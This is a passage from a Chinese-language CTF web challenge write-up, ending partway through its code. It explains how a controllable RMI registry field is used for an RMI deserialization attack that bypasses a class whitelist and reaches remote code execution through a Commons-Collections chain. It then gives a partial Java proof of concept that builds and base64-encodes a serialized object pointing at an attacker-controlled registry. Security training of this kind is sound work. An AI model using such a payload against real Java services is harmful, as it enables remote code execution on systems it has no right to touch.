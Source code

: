 ![image-20230510235655449](Web_Writeup.assets/image-20230510235655449.png)

发现此处连接了一个rmi，而这个**registry1**又是你可以控制的，那么你的思路就很明显了，构造一个恶意的**Server**，然后打**RMI反序列化漏洞**，最终可以实现绕过白名单任意反序列化，从而打CC链来rce

```java
package ctf.minil.java.minil;

import ctf.minil.java.minil.bean.User;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class POC {
    public static void main(String[] args) throws Exception {
        User user = new User("L_team", 18);
        Registry registry = LocateRegistry.getRegistry("ip", 1099);
        setFieldValue("registry", registry, user);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(user);
        byte[] bytes1 = byteArrayOutputStream.toByteArray();
        String encode = java.util.Base64.getEncoder().encodeToString(bytes1);
        System.out.println(encode);
```